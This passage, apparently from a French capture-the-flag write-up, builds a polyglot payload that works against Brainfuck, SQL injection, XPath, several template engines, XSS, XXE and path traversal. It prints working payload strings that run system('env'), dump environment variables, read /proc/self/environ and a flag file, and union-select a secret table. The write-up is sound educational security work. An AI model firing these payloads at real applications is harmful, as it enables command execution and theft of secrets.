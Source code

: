 Petit problème cependant, la syntaxe est incorrecte. Certaines boucles ne sont pas fermée, d'autre fermées sans être ouverte. à ce stade la payload brainfuck, une fois nettoyée ressemble à ceci :

```brainfuck
[.>],[.,],,,,<>][][[]....<[]>....
```

On va donc chercher à corriger tout cela en ouvrant une bracket juste après notre brainfuck et en en fermant une autre juste après notre xpath, normalement cela devrait être réglé.

```c
＂[.>],[.,][＇ UNION SELECT 1,2,flag FROM flag--;env;#＂ UNION SELECT 1,2,flag FROM flag--;<img src=x onerror=alert(flag)>';alert(flag)/* "]|//user[1=1]/password/text()|//user[1="]{system('env')}{*{% if '1'==1 %}{{['env']|filter('system')}}{% endif %}{{lipsum.__globals__.os.environ.FLAG}}*} <%= ENV['FLAG'] %>/../../../../../../../proc/self/environ
```

Tout fonctionne, c'est super.

### La XXE

Hélas, je n'ai pas réussi dans le temps imparti à intégrer la XXE.
Pour que la XXE passe il fallait que dès le début la payload soit acceptée comme du XML recevable et donc commencer par une balise sans aucune quote. 

Si le `<<` peut passer sur la SQLi (un bitshift), je ne savais pas ce que je pouvais mettre après qui rendrais le tout valable.

Cependant, ma payload finale (n'étant pas celle que l'on a construit à tête reposée ensemble) était la suivante :

```c
＂[.>],[.,][＇ UNION SELECT 1,2,flag FROM flag-- ＇'/*;env;#;＂ UNION SELECT 1,2,flag FROM flag-- "]|//user[1=1]/password/text()|//user[1="]{system('env')}{*{% if '1'==1 %}{{['env']|filter('system')}}{% endif %}{{lipsum.__globals__.os.environ.FLAG}}*}<img src=x onerror=alert(flag)><%= ENV['FLAG'] %>*/;alert(flag);y='/../../../../../../../../proc/self/environ
```

On peut voir qu'elle est légèrement plus longue et laisse beaucoup de place à l'optimisation…
Mais est-ce que l'on peut voir ça ?

## La payload gagnante !

Je ne l'ai pas dit jusqu'ici mais le challenge a été remporté par **Ruulian** suivi de près (1 caractère) par **Mizu**. Et en plus de nous présenter le scoreboard, une fois le challenge terminé les payloads ont été rendues publiques.

Et voici la payload qui a gagné
```c
<?or 1
--[.>],[.</script>,"]|*?><!DOCTYPE x[<!ENTITY x SYSTEM "/dev/shm/flag.txt">]><svg onload="alert(flag)">&x;{system("env")}{*{{["env"]|map("system")and lipsum.__globals__.os.environ}}*}<%=`env`%>'
union select*,2,*from flag;env
/../../../../../../proc/self/environ
```

Je vais me pencher spécifiquement sur les différences afin de ne pas avoir trop d'informations (on en a déjà pas mal à ce niveau je pense). Et faisons cela dans l'ordre.

